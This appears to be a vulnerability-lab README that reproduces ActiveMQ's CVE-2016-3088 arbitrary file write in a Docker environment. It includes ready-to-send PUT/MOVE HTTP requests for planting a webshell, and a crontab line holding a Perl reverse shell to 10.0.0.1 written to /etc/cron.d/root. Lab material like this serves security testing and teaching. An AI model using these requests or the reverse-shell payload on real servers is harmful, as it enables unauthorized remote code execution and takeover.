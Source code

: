 # ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)
[中文版本(Chinese version)](README.zh.md)
## Environment construction:

Enter following command to build and run the vulnerability environment:

    docker-compose build
    docker-compose up -d
    

The environment listens to port 61616 and port 8161, of which 8161 is the web console port. This vulnerability appears in the web console.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

ActiveMQ web console is divided into three applications, admin, api and fileserver, where admin is the administrator page, api is the interface, fileserver is the interface for storing files; admin and api need to log in before they can be used, fileserver does not need to log in.

fileserver is a RESTful API interface. We can read and write files stored in it through HTTP requests such as GET, PUT, and DELETE. The design purpose is to compensate for the defect that the message queue operation cannot transfer and store binary files, but later found that:

1. Its usage rate is not high
2. File operations are prone to vulnerabilities

Therefore, ActiveMQ has closed the fileserver application by default in 5.12.x~5.13.x (you can open it in conf/jetty.xml); after 5.14.0, the fileserver application is completely removed.

In the test process, you should pay attention to the version of ActiveMQ, prevent useless effort.

## Vulnerability Details

This vulnerability appears in the Fileserver application, the vulnerability principle is actually very simple, that is, fileserver support to write files (but do not parse the JSP), while supporting the move file (MOVE request). So, we just need to write a file and then move it to any location by use a move request, causing arbitrary file write vulnerability.

Write files such as cron or ssh key

1. Write Webshell
2. Write files such as cron or ssh key
3. Write libraries and configuration files such as jar or jetty.xml

The advantage of writing webshell is convenient, but the fileserver don't parse jsp, admin and api both need to log in to access, so it is a bit futile; The advantage of writing cron or ssh key is to directly reverse Shell, it is convenient too, the disadvantage is that you need root privileges; write jar, a little trouble (requires jar back door), write xml configuration file, this method is more reliable, but there is a futile point: we need to know ActiveMQ absolute path.

Let we talk about the above several methods.

### Write Webshell

As I said earlier, the Webshell needs to be written in the Admin or Api app, and both applications need to be logged in to access.

The default ActiveMQ account and password is `admin`. First, visit `http://your-ip:8161/admin/test/systemProperties.jsp` to view the absolute path of ActiveMQ:

![](02.png)

Then upload Webshell:

    PUT /fileserver/2.txt HTTP/1.1
    Host: localhost:8161
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Length: 120976
    
    webshell...
    

Then move it to the API folder (`/opt/activemq/webapps/api/s.jsp `) in the Web directory:

    MOVE /fileserver/2.txt HTTP/1.1
    Destination: file:///opt/activemq/webapps/api/s.jsp
    Host: localhost:8161
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Length: 0
    
    
    

Access Webshell (login required):

![](03.png)

### Write crontab, automate reverse shell

This is a relatively stable method. First upload the cron configuration file (note that the newline must be `\n`, not `\r\n`, otherwise the crontab execution will fail):

    PUT /fileserver/1.txt HTTP/1.1
    Host: localhost:8161
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Length: 248
    
    */1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    

Move it to `/etc/cron.d/root`:

    MOVE /fileserver/1.txt HTTP/1.1
    Destination: file:///etc/cron.d/root
    Host: localhost:8161
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Length: 0
    
    
    

If both of the above requests return 204, the write is successful. Waiting for the reverse shell:

![](01.png)

This method requires the ActiveMQ run as root, otherwise it will not be able to write to the cron file.

### Write jetty.xml or jar

In theory we can override jetty.xml, remove the login restrictions for admin and api, and then write webshell.

In some cases, the owner of jetty.xml and jar is the user of the web container, so the success rate of writing crontab is higher.

Not tested yet.